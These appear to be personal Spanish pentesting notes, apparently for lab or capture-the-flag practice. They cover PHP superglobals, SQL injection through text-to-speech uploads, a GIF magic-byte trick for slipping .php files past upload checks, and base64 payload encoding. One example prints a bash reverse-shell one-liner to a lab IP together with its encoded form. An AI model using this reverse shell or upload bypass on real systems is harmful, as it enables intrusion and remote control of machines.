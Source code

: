 ## superglobals

Todas estas variables predefinidas son superglobals entre paginas si quieres saber si se esta tramitando algo en realidad y no es una pagina 
falsa o que no tiene contenido puedes ver el codigo fuente de estas y grepear por una superglobal .
    $GLOBALS
    $_SERVER
    $_GET
    $_POST
    $_FILES
    $_COOKIE
    $_SESSION
    $_REQUEST
    $_ENV

## text2speech

Cuando una pagina te pide que envies un fichero o escribas una palabra 
esta palabra se traducira a texto con lo cual puedes poner contenido en
sqli. 
como:
its or one equals one comment 

its le pondra coma para traducirlo y se producira el error de sintaxis de
sql. 
formatos: wav y mp3 por ejemplo.

## typeFile

En base a modificar los magic numbers podemos engañar la tramitacion de una pagina web sobre un upload file

Hay veces que cuando abusas de un upload file con un archivo .php.png no te lo detecta aunque tu sepas que se esta validando con png
y esto es por que se fija en los magic number del archivo podemos manipular esto si ponemos en la cabezera del archivo GIF8;

## urlencode

cuando tengas que hacer una peticion a una pagina web procura
que el contenido este encodeado en base 64 de esta maneara lo 
puede entender.

Ten en cuenta que al urlencode no le gustan los + con lo cual
si lo encodeas en base64 que no tenga + ,exceptuando que no lo
haigas encodedado , si no lo encodeas los mas significan espacio

**Ej:**

```bash
bash -i >& /dev/tcp/10.10.14.40/2222 0>&1 | base64 

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40MC8yMjIyIDA+JjEK 
```
* _ESTA MUY MAL TIENE +_ 
